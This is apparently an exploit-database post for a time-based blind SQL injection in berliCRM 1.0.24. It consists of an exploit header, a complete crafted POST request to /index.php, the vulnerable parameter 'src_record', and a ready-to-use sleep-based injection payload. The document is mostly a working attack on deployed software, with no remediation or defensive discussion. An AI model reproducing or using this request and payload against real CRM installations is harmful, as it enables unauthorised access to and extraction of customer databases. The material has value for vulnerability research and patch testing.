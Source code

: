 ```yaml
---
layout: post
title: berliCRM 1.0.24 - 'src_record' SQL Injection
date: 2020-10-12 21:00:00 +0000
author: Ahmet Ümit BAYRAM
category: exploit
tags: sql,injection,exploit

---
```

\# Exploit Title: berliCRM 1.0.24 - 'src_record' SQL Injection

\# Google Dork: N/A

\# Date: 2020-10-11

\# Exploit Author: Ahmet Ümit BAYRAM

\# Vendor Homepage: [https://www.berlicrm.de](https://www.berlicrm.de "https://www.berlicrm.de")

\# Software Link: [https://github.com/berliCRM/berlicrm/archive/1.0.24.zip](https://www.berlicrm.de "https://www.berlicrm.de")

\# Version: 1.0.24

\# Tested on: Kali Linux

\# CVE : N/A

========== Post Request =========================

POST /index.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded

X-Requested-With: XMLHttpRequest

Referer: localhost

Cookie: PHPSESSID=bab89b6fc39e1fd2c26877a4544cbb64

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Encoding: gzip,deflate

Content-Length: 226

Host: localhost

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36

(KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36

Connection: Keep-alive

__vtrftk=sid:ff114f440469f69f1507ebd04c65e05ba2fcc8d3%2C1602392658&module=Contacts&src_field=contact_id&src_module=Contacts&src_record=1&triggerEventName=postSelection721&view=Popup

============= Vulnerable Parameter ===============

src_record (POST)

============= Payload  ===========================

0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z